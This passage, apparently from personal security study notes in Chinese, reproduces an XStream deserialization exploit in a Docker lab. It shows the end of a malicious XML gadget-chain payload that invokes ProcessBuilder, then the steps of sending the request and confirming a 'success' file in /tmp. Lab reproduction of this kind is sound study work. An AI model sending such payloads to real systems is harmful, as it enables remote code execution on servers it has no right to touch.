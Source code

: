 ```http
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

可以先进入 docker 容器的 `/tmp` 目录瞅一眼

![image-20230608073504920](http://cdn.ayusummer233.top/DailyNotes/202306080735948.png)

> 或者用 VSCode 的 Docker + DevContainer 插件可以使用 VSCode 打开容器
>
> ![image-20230608073634019](http://cdn.ayusummer233.top/DailyNotes/202306080736058.png)

发送构造好的恶意请求

![image-20230608073652110](http://cdn.ayusummer233.top/DailyNotes/202306080736154.png)

然后回看 docker 容器 `/tmp` 目录, 可以看到多出了一个 success 文件

![image-20230608073723901](http://cdn.ayusummer233.top/DailyNotes/202306080737920.png)

